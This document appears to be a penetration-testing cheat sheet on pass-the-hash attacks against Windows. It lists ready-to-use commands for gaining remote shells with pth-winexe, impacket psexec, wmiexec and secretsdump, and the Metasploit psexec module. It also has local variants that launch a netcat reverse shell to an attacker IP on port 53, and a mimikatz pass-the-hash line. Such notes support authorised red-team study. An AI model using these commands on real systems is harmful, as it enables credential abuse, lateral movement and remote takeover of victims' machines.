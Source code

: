 # Pass the Hash / Password

{% hint style="warning" %}
<mark style="color:red;">!</mark><mark style="color:red;">**!! NTLMv2 hashes can not be passed !!!**</mark>

<mark style="color:red;">**only NTLM hashes can be passed**</mark>

<mark style="color:orange;">FOR TOOLS THAT HAVE TO USE LM HASH</mark><mark style="color:orange;">**E**</mark><mark style="color:orange;">S BEFORE NTLM HASH, ADD A BLANK LM HASH:</mark>

_aad3b435b51404eeaad3b435b51404ee_
{% endhint %}

{% hint style="info" %}
We can pass hashes which are from: SAM Files, LSASS, NTDS.DIT

We can pass hashes between workgroup machines, domain members and domain controllers.
{% endhint %}

## <mark style="color:red;">Remote</mark>

Pass the hash remotely to gain a shell:

### <mark style="color:orange;">pth-winexe</mark>

```
pth-winexe -U <domain>/<username>%<hash> //<target-ip> cmd
```

Sometimes you may need to reference the target by its hostname (add an entry to /etc/hosts to make it resolve):

```
pth-winexe -U <domain>/<username>%<hash> //<target-hostname> cmd
```

Alternative:

```
export SMBHASH=<hash>
pth-winexe -U <domain>/<username>% //<target-ip> cmd
```

{% hint style="info" %}
remember the first hash portion is a blank LM hash between these signs : and %
{% endhint %}

### <mark style="color:orange;">secretsdump</mark>

```
secretsdump.py megacorp/hesher:"password123!"@192.168.56.116
```

### <mark style="color:orange;">psexec.py / winexec.py</mark>

```
python psexec.py "hesher":"password123!"@192.168.56.115

python psexec.py "hesher":@192.168.56.115 -hashes [nthash]

python wmiexec.py "hesher":"password123!"@192.168.56.115
```

### <mark style="color:orange;">metasploit psexec</mark>

```
use exploit/windows/smb/psexec
```

## <mark style="color:red;">Local</mark>

#### <mark style="color:green;">Pass the hash locally using runas:</mark>

```
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <hash> "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"
```

#### <mark style="color:green;">Pass the hash locally using PowerShell:</mark>

```
secpasswd = ConvertTo-SecureString "<hash>" -AsPlainText -Force
mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
computer = "<hostname>"
[System.Diagnostics.Process]::Start("C:\Windows\Temp\nc.exe","<attacker-ip> 53 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```

#### <mark style="color:green;">Pass the hash locally using psexec:</mark>

```
psexec64 \\<hostname> -u <username> -p <hash> -h "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"
```

#### <mark style="color:green;">pass the hash with mimikatz:</mark>

```
sekurlsa::pth /user:administrator /domain:. /ntlm:7ddade167a491d4f28eb25728469310e
```
